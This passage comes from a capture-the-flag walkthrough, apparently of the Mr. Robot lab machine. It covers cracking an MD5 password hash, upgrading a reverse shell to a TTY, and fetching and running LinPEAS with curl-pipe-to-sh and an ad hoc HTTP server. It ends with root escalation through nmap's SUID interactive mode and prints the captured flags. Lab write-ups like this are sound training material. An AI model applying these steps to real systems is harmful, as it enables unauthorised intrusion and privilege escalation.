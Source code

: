 ``` bash
```

We can't read to the key-2-of-3.txt so we need to do a privesc to get the access to the user `robot`.
However, we can try to bruteforce the hashed md5 password with john the ripper or just use some online db if it already been cracket like https://crackstation.net.

``` sh
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

After that, we found that the password is:

|               Hash               | Type |           Result           |
|:--------------------------------:|:----:|:--------------------------:|
| c3fcd3d76192e4007dfb496cca67e13b | md5  | abcdefghijklmnopqrstuvwxyz |

With it, we reconnect to the revshell and we spawn a new tty with python command:

``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

If we don't do this, when we would want to do su, the command will say that there is no tty.

``` bash
su robot
password: 
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

*Key 2: `822c73956184f694993bede3eb39f959`*

After that, we'll look for another vulnerabilities present on the machine.
To do that simply, we'll upload LinPeas with python `http.server`.

Kali:

``` sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
sudo python3 -m http.server 8000 #Host
```

Victim:

``` sh
curl 10.10.145.120:8000/linpeas.sh > /tmp/linpeas.sh #Victim
chmod 777 /tmp/linpeas.sh
/tmp/linpeas.sh
```

After execution, we can see that nmap is a vector of PrivEsc because it has SUID with root permissions on it.
After cheecking on https://gtfobins.github.io/gtfobins/nmap/, we will use the interactive mode exploit.

Victim

``` sh
nmap --interactive
!sh
# whoami
root
" find -name "key-3-of-3"
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

*Key 3: `04787ddef27c3dee1ee161b21670b4e4`*
